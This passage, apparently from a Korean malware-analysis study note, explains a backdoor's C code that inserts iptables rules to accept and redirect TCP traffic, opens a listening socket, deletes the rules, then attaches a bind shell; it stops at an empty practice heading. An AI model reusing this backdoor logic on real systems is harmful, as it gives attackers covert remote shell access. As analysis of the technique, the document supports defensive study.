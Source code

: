 `rcmdfmt[]`와 `dinputfmt[]`는 `shell()` 함수의 `system()` 명령어에서 실행된다  
<br>

---

```c
sockfd = b(&toport); // looks like it selects random ephemral port here
if (sockfd == -1) return;

snprintf(cmd, sizeof(cmd), inputfmt, ip);
snprintf(dcmd, sizeof(dcmd), dinputfmt, ip);
system(cmd); // executes /sbin/iptables -I INPUT -p tcp -s %s -j ACCEPT 
sleep(1);
memset(cmd, 0, sizeof(cmd));
snprintf(cmd, sizeof(cmd), cmdfmt, ip, fromport, toport);
snprintf(rcmd, sizeof(rcmd), rcmdfmt, ip, fromport, toport);
system(cmd); // executes /sbin/iptables -t nat -A PREROUTING -p tcp -s %s --dport %d -j REDIRECT --to-ports %d
sleep(1);
sock = w(sockfd); // creates a sock that listens on port specified earlier
if( sock < 0 ){
        close(sock);
        return;
}

shell(sock, rcmd, dcmd); 
```

`w()` 함수에서 소켓이 생성되는데 `w()` 함수가 실행되기 전 특정 포트에서 TCP 수신을 허용하고 특정 포트로 리다이렉트되도록 하는 iptables 규칙이 설정된다  

이때 소켓이 생성되고 나면 이후에 수신 및 리다이렉트하는 iptables 규칙을 삭제하여도 해당 소켓의 iptables 규칙은 변하지 않아 TCP 수신이 가능하고 특정 포트로 TCP 통신을 리다이렉트할 수 있다  

`shell()` 함수를 `rcmd`와 `dcmd` 명령어와 함께 실행한다  
<br>

---

```c
if (rcmd != NULL)
        system(rcmd);
if (dcmd != NULL)
        system(dcmd);
```

`shell()` 함수에서 `get_shell()` 함수에서 설정했던 iptables 규칙들을 삭제하는 명령어를 실행하고 소켓에 표준 입출력을 붙여 바인드 쉘을 사용할 수 있도록 한다  
<br>

---

<br>
<br>

# 실습
